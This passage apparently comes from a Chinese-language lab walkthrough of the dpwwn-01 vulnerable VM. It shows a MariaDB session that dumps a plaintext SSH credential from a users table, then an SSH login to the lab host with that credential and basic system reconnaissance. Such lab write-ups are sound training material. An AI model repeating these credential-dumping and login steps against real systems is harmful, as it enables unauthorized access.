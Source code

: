   Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
  
  Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
  
  MariaDB [(none)]> show databases;
  +--------------------+
  | Database           |
  +--------------------+
  | information_schema |
  | mysql              |
  | performance_schema |
  | ssh                |
  +--------------------+
  4 rows in set (0.002 sec)
  
  MariaDB [(none)]> use ssh
  Reading table information for completion of table and column names
  You can turn off this feature to get a quicker startup with -A
  
  Database changed
  MariaDB [ssh]> show tables;
  +---------------+
  | Tables_in_ssh |
  +---------------+
  | users         |
  +---------------+
  1 row in set (0.000 sec)
  
  MariaDB [ssh]> select * from users;
  +----+----------+---------------------+
  | id | username | password            |
  +----+----------+---------------------+
  |  1 | mistic   | testP@$$swordmistic |
  +----+----------+---------------------+
  1 row in set (0.001 sec)
  
  MariaDB [ssh]> 
  
  ```

- 成功获得初始shell

- ```shell
  └─$ ssh mistic@192.168.2.11       
  The authenticity of host '192.168.2.11 (192.168.2.11)' can't be established.
  ED25519 key fingerprint is SHA256:gk40nSGfkMrCYAeMyL2l9aCwV/VL5i5mWKrFfowOfH0.
  This key is not known by any other names.
  Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
  Warning: Permanently added '192.168.2.11' (ED25519) to the list of known hosts.
  mistic@192.168.2.11's password: 
  Last login: Thu Aug  1 14:41:37 2019 from 192.168.30.145
  [mistic@dpwwn-01 ~]$ uname -a
  Linux dpwwn-01 3.10.0-957.el7.centos.plus.i686 #1 SMP Wed Nov 7 19:17:19 UTC 2018 i686 i686 i386 GNU/Linux
  [mistic@dpwwn-01 ~]$ ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  ```